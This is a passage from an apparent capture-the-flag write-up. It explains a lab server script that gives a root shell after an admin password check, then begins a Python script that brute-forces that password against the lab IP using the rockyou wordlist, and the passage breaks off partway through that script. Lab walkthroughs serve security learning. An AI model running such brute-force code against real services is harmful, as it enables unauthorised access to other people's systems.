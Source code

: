 The global variable `admins` is used to add the authenticated connections. The script checks if the `UID` is already 0. If so, it will ask the user to start a new connection.
```python
global admins

    uid = os.getuid()
    if (uid != 0):
        send_data(client_socket, "Start a fresh client to begin.")
        return
```

The variable `password` contains the admin's password. However, this is not the actual password (We will have to brute-force it later).  The script then prompts the user for a password and the user has 3 tries to get the password right.
```python
password = 'testpass'

for i in range(0, 3):
	# Ask for Password
    send_data(client_socket, "Password:")

    # Receive data from the client
    try:
	    data = client_socket.recv(1024).decode("utf-8")
    except Exception as e:
	    # Send the exception message back to the client
	    send_data(client_socket, e)
		pass
	finally:
		# Reset stdout to the default
		sys.stdout = sys.__stdout__
```

If the password provided by the user is correct, the connection is added to the admin's list. The user is then able to send `shell` as the data and get a shell as `root`.
```python
if data.strip() == password:
	admins.append(str(client_socket))
	send_data(client_socket, 'Welcome Admin!!! Type "shell" to begin')
	break
```

### Access

To brute force the password, I wrote a simply python script.

```python
import socket
import time

def brute_force_password():
    # Define server address and port
    server_address = '10.10.102.144'  # Replace with the server IP
    server_port = 8000

    # Load the password list
    with open("/usr/share/wordlists/rockyou.txt", 'r', encoding='latin-1') as f:
        password_list = f.readlines()

    for password in password_list:
        password = password.strip()  # Strip any newline or space characters

        # Create a socket object
        client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client_socket.settimeout(5)  # Set a timeout of 5 seconds for socket operations

```